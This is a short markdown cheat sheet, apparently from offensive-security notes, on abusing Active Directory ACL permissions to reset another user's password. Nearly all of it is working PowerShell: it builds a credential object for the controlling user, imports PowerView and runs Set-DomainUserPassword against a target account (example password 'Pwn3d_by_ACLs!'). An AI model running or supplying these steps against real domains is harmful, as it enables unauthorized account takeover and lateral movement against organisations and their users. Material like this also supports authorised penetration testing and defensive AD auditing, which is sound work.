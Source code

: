 # Change a User's Password Using ACL Permissions

1. **Authenticate as the Controlling User User I have**  
   - **Create a Secure String** for the password of the user with ACL permissions (e.g., `ali`):  
     ```powershell
     $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
     ```  
   - **Create a PSCredential Object** to impersonate the controlling user:  
     ```powershell
     $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USERNAME', $SecPassword)
     ```  
     Replace `DOMAIN\USERNAME` (e.g., `corp.com\ali`).

2. **Define the New Password for the Target User**  
   - **Create a Secure String** for the new password (e.g., `Pwn3d_by_ACLs!`):  
     ```powershell
     $NewPassword = ConvertTo-SecureString '<NEW_PASSWORD>' -AsPlainText -Force
     ```  

3. **Reset the Target User's Password**  
   - **Import Required Modules** (e.g., PowerView):  
     ```powershell
     Import-Module .\PowerView.ps1
     ```  
   - **Execute the Password Change**:  
     ```powershell
     Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $NewPassword -Credential $Cred -Verbose
     ```  
     Replace `<TARGET_USER>` (e.g., `ahmed`).  
